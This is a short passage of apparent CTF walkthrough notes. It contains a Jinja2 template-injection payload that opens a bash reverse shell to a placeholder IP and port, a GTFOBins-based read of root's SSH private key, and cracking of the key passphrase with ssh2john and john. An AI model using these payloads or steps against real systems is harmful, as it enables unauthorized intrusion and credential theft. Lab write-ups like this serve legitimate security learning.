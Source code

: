 Lets get a reverse shell:
`{{ self._TemplateReference__context.joiner.__init__.__globals__.os.popen('bash -c "bash -i >& /dev/tcp/IP/PORT 0>&1"').read() }}`

![[Pasted image 20240916182929.png]]

Spawning a stable shell:

[[Shell Tricks]]

![[Pasted image 20240916183201.png]]
Now that we've got a stable shell, lets start privilege escalation

## Privilege Escalation

![[Pasted image 20240916183323.png]]


#### GTFOBINS

![[Pasted image 20240916184431.png]]
Lets use this to read id_rsa file from root:

![[Pasted image 20240916184500.png]]
We can pass it to a file and download that file to our local machine:

![[Pasted image 20240916184542.png]]

We can decrypt id_rsa passphrase using ssh2john and john

`ssh2john id_rsa > hash`
`john hash --wordlist=/usr/share/wordlists/rockyou.txt
`
When we do it, we get passphrase `honda1`

Entering ssh:

![[Pasted image 20240916185011.png]]
And just like that, we finished this ctf!





